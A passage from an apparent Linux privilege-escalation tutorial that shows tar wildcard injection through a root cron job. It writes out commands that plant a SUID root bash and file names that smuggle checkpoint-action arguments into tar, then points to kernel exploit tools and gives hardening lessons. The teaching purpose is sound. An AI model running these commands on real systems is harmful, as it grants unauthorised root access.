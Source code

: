 But how do we get the arguments into `tar`? The script itself is unfortunately only writable by the owner. This is where the wildcard comes into play. If tar wants to add a file to the archive and the filename looks like an argument, it is interpreted as an argument.

#### Task
Inject the required arguments into `tar` to get a root shell.

#### Solution
Create a script in the `/home/john` directory that again copies the bash and equips it with the SUID bit.

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/john/rootshell.sh
```

Also create the two arguments as files in the `home/john` directory

```
echo "" > "--checkpoint-action=exec=sh rootshell.sh"
echo "" > --checkpoint=1
```

The command that is called in the script by the cron job then looks like this:

```
tar cf /backups/backup.tgz --checkpoint=1 --checkpoint=action=exec=sh rootshell.sh
```

- checkpoint[=x] - Use “checkpoints”: Show a progress message every x entries
- checkpoint-action=ACTION: Perform ACTION at each checkpoint, in our case exec
- exec=COMMAND: Execute the COMMAND, in our case the script which copies the shell and equips it with the SUID bit

When the job has run the next time, `/tmp/bash -p` should spawn a root bash.

### Lessons Learned
Check the jobs you have configured.
- Are they executed with root rights?
- Are there directories in the path that can be written to by users other than root?
- Are wildcards used in scripts and can this be exploited?

## Kernel Exploits
If a system is not up to date, the kernel may be vulnerable to a kernel exploit. These can be found either with a tool/script (e.g., [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) or Metasploit's local_exploit_suggester module) or by googling kernel version + exploit and databases such as [Exploit-DB](https://www.exploit-db.com/).

### Lessons Learned
Even if we haven't tried this now, it should be clear: keep your system up to date!

## What now?
You've got a taste for it and would like to learn and do more about Linux Privilege Escalation, Hardening & Co.?
Here are some resources on the topic to keep you from getting bored at the end of the year:
